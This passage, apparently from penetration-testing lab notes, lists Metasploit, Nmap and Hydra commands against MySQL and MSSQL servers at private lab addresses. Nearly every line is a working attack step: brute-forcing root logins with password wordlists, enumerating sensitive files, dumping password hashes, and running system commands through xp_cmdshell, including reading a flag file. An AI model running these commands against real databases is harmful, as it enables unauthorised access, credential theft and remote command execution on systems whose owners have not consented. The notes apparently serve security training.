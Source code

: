             - `exploit`
                
            - `use auxiliary/scanner/mysql/mysql_file_enum` - File enum
                
            - `set RHOSTS 192.49.51.3`
                
            - `set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt`
                
            - `set PASSWORD "”`
                
            - `exploit`
                
            - `use auxiliary/scanner/mysql/mysql_hashdump` - hash dump
                
            - `set RHOSTS 192.49.51.3`
                
            - `set USERNAME root`
                
            - `set PASSWORD "”`
                
            - `exploit`
                
            
            **Nmap Scripts**
            
            - `nmap --script ms-sql-info -p1433 10.4.21.27`- Info
            - `nmap --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 -p1433 10.4.21.27` - ntlm info
            - `nmap --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt -p1433 10.4.21.27` - enumerate users and passwords
            - `nmap --script ms-sql-empty-password -p1433 10.4.21.27` - check empty password users
            - `nmap --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria -p1433 10.4.21.27` - Dump MSSQL users hashes
            - `nmap --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" -p1433 10.4.21.27` cmd shell
            - `nmap --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\\flag.txt" -p1433 10.4.21.27` - cmd shell
            
            **MYSQL Login**
            
            **Metasploit**
            
            - `nmap -sV -p3306 192.222.16.3`
            - `msfconsole`
            - `use auxiliary/scanner/mysql/mysql_login`
            - `set RHOSTS 192.222.16.3`
            - `set USERNAME root`
            - `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
            - `set VERBOSE false`
            - `set STOP_ON_SUCCESS true`
            - `exploit`
            
            **Hydra**
            
            - `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.222.16.3 mysql`
            
            **MSSQL Enum with Metasploit port- 1433**
            
            - `nmap --script ms-sql-info -p1433 10.4.23.176`
                